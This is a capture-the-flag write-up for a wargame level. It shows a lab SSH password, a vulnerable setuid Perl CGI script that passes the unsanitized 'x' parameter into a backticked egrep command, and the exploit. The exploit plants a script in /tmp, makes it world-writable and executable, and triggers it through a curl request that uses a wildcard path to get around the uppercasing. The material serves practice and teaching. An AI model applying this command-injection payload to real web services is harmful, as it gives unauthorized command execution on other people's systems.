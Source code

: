 # 12

###### tags: `Perl` `egrep` `backtick injection

Login

```b
> ssh level12@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: fa6v5ateaw21peobuub8ipe6s
```

```b
> ls -l level12.pl 
-rwsr-sr-x+ 1 flag12 level12 464 level12.pl
```

<details><summary>See more</summary>

```b
> cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];         👈 
  $xx =~ tr/a-z/A-Z/;  👈 
  $xx =~ s/\s.*//;

  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  👆 backticks in Perl will run the Bash cmd 
  👆  if xx is also in backticks it also gets expanded/exec
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
      👆 nn is empty bc. arg 1 is empty so ($s =~ "") is always true 
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y"))); 👆 query's key: x, y
```

</details>

- `input (x)` is not sanitized before inserted in the cmd 
- `""` - PERL interpolates/evals variables inside double quotes
- `egrep` - PERL runs this unsanitized cmd as part of `egrep`
- since `/tmp/go` has `x`|777 getflag will be run

```b
> echo "getflag | wall" > /tmp/GO
> chmod 777 /tmp/GO
> curl 'http://10.0.2.15:4646?x=`/*/GO`'
```

there you have it in tmp tmp
